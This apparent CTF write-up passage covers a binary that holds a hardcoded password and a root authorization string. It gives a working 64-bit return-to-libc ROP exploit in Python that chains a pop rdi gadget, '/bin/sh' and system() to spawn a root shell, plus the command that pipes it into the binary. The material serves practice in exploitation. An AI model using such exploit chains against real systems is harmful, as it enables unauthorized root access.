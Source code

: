 **Translation**
```
launch debug
touch / root / authorize_bob
return code:% d
Password :
aliceestnulle
Bad password

Because here is the Fawn raging
Who in my heart survives.
Idol of a world pass
God of a sunken country.
```

I ran the binary and used the password: `aliceestnulle` but it didn't worked.

![](images/kfio/test-fail.png)

We need to exploit this binary to get the root shell.

You can follow [this](https://blog.techorganic.com/2015/04/21/64-bit-linux-stack-smashing-tutorial-part-2/) article to understand how to exploit the binary.

After you've done it you'll have the following code

```python
#!/usr/bin/env python

from struct import *

buf = ""
buf += "A"*21                              # junk
buf += pack("<Q", 0x555555554923)       # pop rdi; ret;
buf += pack("<Q", 0x7ffff7b9bc19)                 # pointer to "/bin/sh" gets popped into rdi
buf += pack("<Q", 0x7ffff7a79480)           # address of system()

print buf
```

After this execute the code by running

```
$ (python exploit.py;cat)|./test
```
